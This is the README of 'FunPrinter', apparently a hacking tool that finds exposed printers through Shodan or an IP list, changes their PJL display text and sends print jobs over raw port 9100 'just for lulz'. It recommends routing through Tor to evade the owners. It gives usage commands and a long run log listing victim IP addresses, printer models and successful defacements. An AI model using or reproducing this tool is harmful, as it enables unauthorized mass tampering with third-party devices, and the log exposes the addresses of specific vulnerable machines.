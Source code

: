 # FunPrinter
```    
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/
```
### What is FunPrinter?
FunPrinter is a tool for perpetrating massive attacks on printers written by FunSec just for lulz.  
The tool has two modes: 
```
--mode shodan
--mode list 
```  
#### Shodan
The shodan mode searches for devices on the internet of things thanks to shodan api. To use this mode you will need yout own API key of shodan.
#### List
List mode reads a specific list and loads them into the program.  
Example list:  
```
140.223.12.34
80.211.32.12
90.23.442.12
5.123.422.12
```
### Message
```
--message <message_here>
```
This argument will specify the message that will be displayed on the printer's screen in case the printer uses PJL through port 9100.  
Example:
```
--message Hacked
```
##### Result (Old picture)
![Example](https://hacking-printers.net/wiki/images/thumb/1/16/PJL-display.png/800px-PJL-display.png)

#### TOR (Optional)
You can use tor to hide your identity (Recommended) so that no angry businessman tries to find you. To do this add --tor in the command of the script.
```python
socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 9050)
```
This line of code set the tor proxy in the script. Change the port if you need.

### How to use Usage
The first step is to have a file that you want to print on printers that have RAW protocol enabled.  
Example:
```
funsec@funsec # cat test.txt  
I hack you LMAO
```
If you use this file without going through A4.py it will not print correctly in the printer. The "test.txt" file needs to be a complete page.    

Then you need to execute this command:
```
kek@kek-PC # python A4.py test.txt
By FunSec with love ;)
```
After this simple step ... Happy hacking!.

Example:
```
kek@kek-PC # python funny.py --mode list --arg list.txt --message Succ! --tor myfile
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/

[TOR] Verifying the connection to the proxy
[TOR] Actual IP: 77.247.181.162
[LIST] Reading list
[LIST] Done!. 199 ips loaded
[49.79.232.76] Connecting...
[49.79.232.76] Connection failed
[125.75.32.191] Connecting...
[125.75.32.191] Connection failed
[124.167.222.86] Connecting...
[124.167.222.86] Connection failed
[162.249.88.74] Connecting...
[162.249.88.74] Connected!
[162.249.88.74] Testing PJL
[162.249.88.74] Test completed!
[162.249.88.74] RICOH MP C4503
[162.249.88.74] Changing the display screen to Succ!
[162.249.88.74] Done!. Closing the connection
[213.248.30.125] Connecting...
[213.248.30.125] Connected!
[213.248.30.125] Testing PJL
[213.248.30.125] Protocol not supported. Closing the connection
[77.236.139.27] Connecting...
[77.236.139.27] Connected!
[77.236.139.27] Testing PJL
[77.236.139.27] Protocol not supported. Closing the connection
[95.173.193.20] Connecting...
[95.173.193.20] Connected!
[95.173.193.20] Testing PJL
[95.173.193.20] RAW protocol detected. Sending file
[95.173.193.20] Done!. Closing the connection
[218.75.141.13] Connecting...
[218.75.141.13] Connection failed
[173.247.166.122] Connecting...
[173.247.166.122] Connected!
[173.247.166.122] Testing PJL
[173.247.166.122] RAW protocol detected. Sending file
[173.247.166.122] Done!. Closing the connection
[112.171.47.235] Connecting...
[112.171.47.235] Connected!
[112.171.47.235] Testing PJL
[112.171.47.235] Protocol not supported. Closing the connection
[45.60.169.188] Connecting...
[45.60.169.188] Connected!
[45.60.169.188] Testing PJL
[45.60.169.188] Protocol not supported. Closing the connection
[107.154.163.139] Connecting...
[107.154.163.139] Connected!
[107.154.163.139] Testing PJL
[107.154.163.139] Protocol not supported. Closing the connection
[107.154.157.226] Connecting...
[107.154.157.226] Connected!
[107.154.157.226] Testing PJL
[107.154.157.226] Protocol not supported. Closing the connection
[107.154.206.184] Connecting...
[107.154.206.184] Connected!
[107.154.206.184] Testing PJL
[107.154.206.184] Protocol not supported. Closing the connection
[107.154.60.223] Connecting...
[107.154.60.223] Connected!
[107.154.60.223] Testing PJL
[107.154.60.223] Protocol not supported. Closing the connection
[203.130.62.58] Connecting...
[203.130.62.58] Connected!
[203.130.62.58] Testing PJL
[203.130.62.58] Protocol not supported. Closing the connection
[45.60.81.249] Connecting...
[45.60.81.249] Connected!
[45.60.81.249] Testing PJL
[45.60.81.249] Protocol not supported. Closing the connection
[177.0.87.163] Connecting...
[177.0.87.163] Connected!
[177.0.87.163] Testing PJL
[177.0.87.163] Test completed!
[177.0.87.163] Samsung M337x 387x 407x Series
[177.0.87.163] Changing the display screen to Succ!
[177.0.87.163] Done!. Closing the connection
[31.14.252.54] Connecting...
[31.14.252.54] Connected!
[31.14.252.54] Testing PJL
[31.14.252.54] RAW protocol detected. Sending file
[31.14.252.54] Done!. Closing the connection
[107.154.103.88] Connecting...
[107.154.103.88] Connected!
[107.154.103.88] Testing PJL
[107.154.103.88] Protocol not supported. Closing the connection
```
### Requeriments
```
python2.7 (Best version of python LMAO)
pip for python2.7
```
After having these two essential requirements, it is necessary to install the following modules with "pip install module" although this step can be done semiautomatically.  
#### Manual
Modules to install:
  ```
  PySocks, colorama, argparse, shodan
  ```
WARNING: Install all modules individually  
Example:  
Linux
```
pip install PySocks
```
Windows
```
C:\Python27\Scripts\pip.exe install PySocks
```
#### Semiautomatic
Run this command in yout shell m8  
Linux
```
pip install -r requeriments.txt
```
Windows
```
C:\Python27\Scripts\pip.exe install -r requeriments.txt
